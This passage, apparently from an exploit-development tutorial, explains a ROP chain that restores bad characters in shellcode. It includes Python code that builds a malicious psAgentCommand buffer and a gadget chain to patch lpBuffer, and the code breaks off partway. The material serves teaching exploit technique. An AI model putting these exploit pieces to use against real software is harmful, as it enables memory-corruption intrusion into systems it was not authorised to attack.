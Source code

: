 This new ROP chain will be inserted just after the gadgets that patch nSize on the stack. At this point, EAX will contain the stack address where the nSize argument is stored. To align EAX with the first bad character to fix, we can pop an appropriate negative value into ECX and subtract it from EAX.
pop ecx ; ret
negative offset
sub eax, ecx ;

With EAX aligned, our next step is to restore the bad character. We will do this by loading an appropriate value into EBX and then adding the byte in BH to the value pointed to by EAX.
pop ebx ; ret
value into BH
add [eax+1], bh ; ret

For every bad character that we have to decode, we'll need to determine both the negative offset value to subtract from EAX and the value to place into BH.

First, let's find the correct value for BH. We are going to restore the bad character 0x00, which was replaced by the fourth byte in the shellcode, 0xff. We can add 0x01 to 0xff to restore the shellcode byte.

We can load the correct value in BH while avoiding bad characters by popping the value 0x1111__01__11 into EBX.

Next, let's calculate the negative offset. Recall that when the decoder ROP chain is executed, EAX points to nSize on the stack.

Before moving forward with this step, we need to make a couple of adjustments to our proof of concept that will influence the negative offset we have to calculate. For each bad character we fix, we'll be increasing the size of our final ROP chain. To account for this, we'll adjust the lpBuffer (shellcode) address on the stack to create enough additional space.

We will also increase the size of our entire input buffer to account for our larger combined offset and ROP chain. Listing 71 shows the first psCommandBuffer increased to 0x1100.
# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)      # opcode
buf += pack("<i", 0x0)        # 1st memcpy: offset
buf += pack("<i", 0x1100)    # 1st memcpy: size field
buf += pack("<i", 0x0)        # 2nd memcpy: offset
buf += pack("<i", 0x100)      # 2nd memcpy: size field
buf += pack("<i", 0x0)        # 3rd memcpy: offset
buf += pack("<i", 0x100)      # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)
Next, let's modify the address stored in lpBuffer.
# Patching lpBuffer
rop = pack("<L", (dllBase + 0x296f)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0x88888888))
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0x77777d78))
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x8876d)) # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x48d8c)) # pop eax ; ret 
...

